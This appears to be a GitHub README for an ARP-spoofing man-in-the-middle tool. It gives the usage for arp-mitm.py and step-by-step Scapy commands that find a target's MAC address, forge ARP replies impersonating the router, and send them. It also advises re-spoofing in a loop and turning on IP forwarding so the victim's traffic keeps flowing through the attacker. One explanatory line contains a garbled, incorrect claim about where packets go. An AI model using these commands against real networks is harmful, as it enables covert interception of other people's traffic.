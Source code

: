# ArpSpoof-MITM-Framework

  ## Script usage
        --> (attack on a network with 3 machines: router, attacker, target)

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
  ## Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

  ## Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
                Getting mac address of target machine w/ spoofed ARP request :

                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address

                [-] arp_layer = ARP(pdst='{TARGETIP}')

                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet

                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast

                [-] print(answer) --> will show request and response if any received

                [-] print(answer[0])

                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                              
                [-] print(target_mac_address)

  ### Crafting Malicious Packets:

            [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
            [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
            [-] packet.show() will show the contents of our malicious packet
                
            [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
  ### Arp-tables on target machine:

            [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
